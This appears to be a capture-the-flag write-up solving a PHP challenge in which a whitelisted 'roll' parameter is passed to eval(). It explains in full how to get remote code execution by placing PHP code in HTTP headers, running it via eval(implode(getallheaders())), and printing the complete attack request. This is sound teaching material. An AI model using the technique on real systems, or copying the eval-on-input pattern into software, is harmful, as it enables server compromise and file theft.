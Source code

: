 ### Code: 

```php
<?php

function get_lucky_word() {
    $words = array("Chuc mung nam moi", "gongxifacai", "happy new year!", "bonne année", "Akemashite omedeto gozaimasu", "Seh heh bok mahn ee bahd euh sae yo", "kimochi", "Feliz Año Nuevo", "S novim godom", "Gelukkig Nieuwjaar", "selamat tahun baru", "iniya puthandu nal Vazhthukkal");
    return $words[array_rand($words)];
}

function get_lucky_number() {
    $numb = rand(0,100);
    return strval($numb);
}


if(!isset($_GET["roll"])) {
    show_source(__FILE__);
}
else
{
    $wl = preg_match('/^[a-z\(\)\_\.]+$/i', $_GET["roll"]);

    if($wl === 0 || strlen($_GET["roll"]) > 50) {
        die("bumbadum badum");
    }
    eval("echo ".$_GET["roll"]."();");
}

?>

```

# Explanation: #
In above code only parameter is "roll". If parameter is not passed then source code is shown otherwise parameter is processed.
## Constraints
There are some constraints on roll parameter:-
### 1. Length
Length should be less than 50 characters.
### 2. Allowed Characters
- a-z
- (
-  )
-  _
-  .

## Target
Flag is in same directory in file "fl4g_here_but_can_you_get_it_hohoho.php".
1. We need to list all files in directory
2. We need to read flag file

## Obstacle
Roll parameter is too constrained to be used for exploitation. So we need to find another way to deliver our payload, and then execute using roll parameter.
## Failed Attempt
As same as everyone, I wasted many hours on using system command

We can easily list files using

```?roll=system(ls)```

So our first target of finding file name is completed, But when I tried reading file using

```?roll=readfile(system(ls))```

it only showed content of index.php, Why?

On [PHP System Page](https://www.php.net/manual/en/function.system.php), mentioned
```Function Returns the last line of the command output on success```

So while system(ls) is displaying all files, it only passing last file name to readfile function. And same is true for other similar functions like exec, passthru.

## Exploitation:
So I braked problem in parts and solved like this:-

#### 1. Payload Delivery

Roll parameter was too small for payload, So I used HTTP headers for delivering payload

```User-Agent: eval(system('cat fl4g_here_but_can_you_get_it_hohoho.php'))```

Here, I am reading flag file using cat. cat is called by system function. And system function is string which is parsed as php code by eval.

#### 2. Reading Payload

So our payload is delivered, now we need to read this.

```getallheaders()``` can be used for reading all headers. But this will return a array. But if we use implode function like ```implode(getallheaders())```, then it will create a string of all the VALUES of array as a string. like,

```
192.46.227.32 eval(system('cat fl4g_here_but_can_you_get_it_hohoho.php'));text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8en-US,en;q=0.5gzip, deflate1close11max-age=0

```

So now we have our payload ready. We can execute php code in above string using eval. So final url will be 

```192.46.227.32/?roll=(eval(implode(getallheaders())))```

#### 3. Final step
Our php code in above string also has other stuff and when eval will try to execute it will crash. So we should comment out that. How?
I created two more custom headers, where first one is on top of all header and had starting of php comment /* and last header I included had ending of php comment. And I changed payload to close opened comment on start and close on end. So final request become like this

```
GET /?roll=(eval(implode(getallheaders()))) HTTP/1.1
xyz: /*test
Host: 192.46.227.32
User-Agent: */ eval(system('cat fl4g_here_but_can_you_get_it_hohoho.php'));/*
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
abc: tses*/
```
